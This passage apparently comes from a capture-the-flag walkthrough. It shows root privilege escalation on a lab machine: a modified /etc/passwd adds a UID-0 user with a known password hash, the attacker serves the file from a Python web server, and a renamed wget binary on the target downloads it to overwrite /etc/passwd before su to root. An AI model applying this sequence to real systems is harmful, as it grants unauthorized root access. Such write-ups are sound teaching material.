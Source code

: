 ```bash
www-data:x:33:33:www-data:/var/www
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
john:x:1000:1000::/home/john:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ftp:x:106:108:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
david:x:1001:1001::/home/david:/bin/bash
anon:$1$anon$G05/IEkCfH5/MvkGBhHbe0:0:0:root:/root:/bin/bash

➜  

```

Now run `python` HTTP server for transferring this file into target machine.

```bash
➜  python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.194.136 - - [14/Feb/2022 20:43:49] "GET /passwd HTTP/1.1" 200 -

```

```bash
Mid_PrivShell $: ./odus -O /etc/passwd http://10.4.29.202:8000/passwd
./odus -O /etc/passwd http://10.4.29.202:8000/passwd
--2022-02-14 20:43:50--  http://10.4.29.202:8000/passwd
Connecting to 10.4.29.202:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1457 (1.4K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd         100%[===================>]   1.42K  --.-KB/s    in 0.001s  

2022-02-14 20:43:50 (1.51 MB/s) - ‘/etc/passwd’ saved [1457/1457]

Mid_PrivShell $: 

```

BOOM!! Now we can switch to the user we created earlier with root privilege and you can root flag at `/root` directory. 

```bash
Mid_PrivShell $: su anon
su anon
Password: anon

 * Starting OpenBSD Secure Shell server sshd                             [ OK ] 
 * Starting FTP server vsftpd                                                   /usr/sbin/vsftpd already running.
                                                                         [ OK ]
 * Starting Apache httpd web server apache2                                      * 
[R00t_Shell] $: cd /root
cd /root
[R00t_Shell] $: ls
ls
r00t_fl4g.txt
[R00t_Shell] $: cat r00t_fl4g.txt
```
